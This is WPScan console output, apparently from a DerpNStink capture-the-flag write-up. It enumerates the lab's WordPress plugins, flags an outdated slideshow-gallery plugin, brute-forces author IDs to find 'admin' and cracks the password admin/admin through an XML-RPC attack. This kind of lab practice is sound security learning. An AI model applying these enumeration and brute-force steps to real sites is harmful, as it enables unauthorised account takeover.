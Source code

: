     [+] Enumerating All Plugins (via Passive Methods)
    [+] Checking Plugin Versions (via Passive and Aggressive Methods)

    [i] Plugin(s) Identified:

    [+] slideshow-gallery <== HERE
     | Location: http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/
     | Last Updated: 2021-08-19T23:03:00.000Z
     | [!] The version is out of date, the latest version is 1.7.3
     |
     | Found By: Urls In Homepage (Passive Detection)
     |
     | Version: 1.4.6 (100% confidence)
     | Found By: Readme - Stable Tag (Aggressive Detection)
     |  - http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt
     | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
     |  - http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt

    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
     Checking Config Backups - Time: 00:00:00 <==================================================> (137 / 137) 100.00% Time: 00:00:00

    [i] No Config Backups Found.

    [+] Enumerating Users (via Passive and Aggressive Methods)
     Brute Forcing Author IDs - Time: 00:00:00 <===================================================> (10 / 10) 100.00% Time: 00:00:00

    [i] User(s) Identified:

    [+] admin
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)

    [+] Performing password attack on Xmlrpc against 1 user/s
    [SUCCESS] - admin / admin                                                                                                        
    Trying admin / admin Time: 00:04:19 <                                                  > (19820 / 14364212)  0.13%  ETA: ??:??:??

    [!] Valid Combinations Found:
     | Username: admin, Password: admin <== HERE

    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
